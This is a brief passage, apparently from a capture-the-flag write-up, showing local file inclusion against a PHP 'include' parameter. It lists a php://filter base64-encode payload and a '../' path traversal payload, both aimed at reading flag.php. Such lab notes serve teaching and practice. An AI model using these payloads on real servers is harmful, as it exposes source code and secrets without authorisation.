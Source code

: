 ## Basic LFI through PHP filters
* `?include=php://filter/convert.base64-encode/resource=flag.php`
* I imagine that `?include=../php/flag.php` would also work :shrug:
